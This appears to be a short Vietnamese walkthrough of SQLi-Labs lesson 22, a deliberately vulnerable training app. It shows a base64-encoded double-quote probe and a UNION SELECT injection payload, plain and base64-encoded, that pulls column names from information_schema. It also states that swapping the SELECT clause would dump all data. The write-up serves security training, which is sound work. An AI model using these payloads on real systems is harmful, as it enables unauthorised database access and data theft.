




# Những việc làm được với lesson-22
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-22



Tương tự như thế ta đăng nhập vào bài này 



Kết quả vẫn là một dòng ký tự ở uname và đó chắc vẫn là do encode. Chúng ta cùng thử đi tìm cấu trúc của nó nhưa bài trước. Sau khi nhập đến ký tự 
```
"
encode thành 
Ig==
```



thì nó đã thông báo lỗi. Dựa vào đó ta sẽ tìm ra cấu trúc của nó 



1. Tìm cấu trúc 
```
" union SELECT 1,@@version,group_concat(COLUMN_NAME) FROM information_schema.columns WHERE table_schema='security' AND table_name='uagents' # 
```
và được encode thành 
```
IiB1bmlvbiBTRUxFQ1QgMSxAQHZlcnNpb24sZ3JvdXBfY29uY2F0KENPTFVNTl9OQU1FKSBGUk9NIGluZm9ybWF0aW9uX3NjaGVtYS5jb2x1bW5zIFdIRVJFIHRhYmxlX3NjaGVtYT0nc2VjdXJpdHknIEFORCB0YWJsZV9uYW1lPSd1YWdlbnRzJyAgIyA=
```

Với cấu trúc câu như thế này thì chúng ta có thể thay các câu select sau union để có thể biết được tất cả dữ liệu 

